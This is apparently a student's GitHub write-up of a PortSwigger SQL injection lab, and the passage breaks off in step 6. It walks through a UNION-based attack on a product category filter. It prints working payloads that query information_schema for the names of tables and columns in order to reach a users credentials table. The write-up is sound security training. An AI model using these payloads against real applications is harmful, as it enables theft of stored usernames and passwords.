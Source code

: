 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
## Description
*This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.*

*The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.*

*To solve the lab, log in as the administrator user.*

## HINT

You can find some useful payloads on our [SQL injection cheat sheet.](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

# STEP 1: Verify SQLi

Normal function of Accessories parameter of the catagory filter:

![image](https://user-images.githubusercontent.com/83407557/169705069-d5ab5ebe-9847-47b3-88bc-c952aa424de9.png)

Adding a single quote to cause a server side error:

![image](https://user-images.githubusercontent.com/83407557/169705114-d1bece26-5e08-41b4-b82f-af523e473c86.png)

Then a comment to remove it and verify injection point

![image](https://user-images.githubusercontent.com/83407557/169705142-c4193d8b-cfc9-44f2-bad6-3857c369d1fd.png)


# STEP 2: Determine number of columns being returned by the query

using UNION SELECT NULL inside our '**injection point**-- 

## Test for 1 column

![image](https://user-images.githubusercontent.com/83407557/169705227-ab075686-e71c-4bc1-867f-52a435ba6277.png)

## Test for 2 columns

![image](https://user-images.githubusercontent.com/83407557/169705245-26bc40a1-e7a3-4513-92d3-a21d88a5b4ff.png)

this verifies that there are 2 columns being returned.

# STEP 3: Determine which columns return string data

## Test for column 1

![image](https://user-images.githubusercontent.com/83407557/169705312-58b23cff-1369-42ee-951e-7e89a705384f.png)

It will return string data

## Test for column 2

![image](https://user-images.githubusercontent.com/83407557/169705347-9ac350ab-b386-48f3-a3b6-96bdee4be315.png)

which also returns string data

# STEP 4: Get a list of tables in the database

For non oracle databases this can be done using the following SQL query:

```sql
 SELECT table_name FROM information_schema.tables
 ```
 Since column 2 seems more readable on screen, that is where I will put this payload, I will also replace 'abc' with 'TABLES IN THE DATABASE:' just to make that my title(since I already know where the strings will be displayed from step 3)
 
 Making the entire query:
 
 ```sql
'UNION SELECT 'TABLES IN THE DATABASE', table_name FROM information_schema.tables--
 ```
 
 This returns every table, searching through the output I find one that seems interesting:
 
 ![image](https://user-images.githubusercontent.com/83407557/169705763-c7e74107-e0a0-4bab-a8f5-7a65a7050da5.png)

# STEP 5: Get a list of columns in the found table.

Now that I know that I want to look at the table users_mwjhvu I can list the columns in a similar way, but using a where clause

```sql
'UNION SELECT 'Column in users table', column_name FROM information_schema.columns WHERE table_name='users_mwjhvu'--
```
![image](https://user-images.githubusercontent.com/83407557/169705955-63e2bbf3-cbba-4f44-b8b0-19f0380db88b.png)

# STEP 6: Get the rows from the users table

In order to get the information from another table with a union statement I need the table name(users_mwjhvu) and the column names (
